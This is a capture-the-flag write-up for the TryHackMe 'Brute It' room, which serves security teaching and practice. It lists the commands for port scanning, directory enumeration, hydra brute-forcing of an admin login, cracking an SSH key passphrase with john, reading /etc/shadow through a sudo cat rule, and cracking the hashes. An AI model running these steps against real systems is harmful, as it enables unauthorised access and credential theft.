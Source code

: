 # Brute It

**Room Link:** [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (68).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```

<figure><img src="../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa 
ssh -i id_rsa john@$VICTIM
pass: rockinroll
```



john can run cat as root, we can just use this to read root.txt but I decided to read the shadow file which I can't do from johns account, then send shadow and passwd files back to Kali to crack.

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
LFILE=/etc/shadow
sudo cat "$LFILE"
```

**Kali**

```
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

<figure><img src="../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>











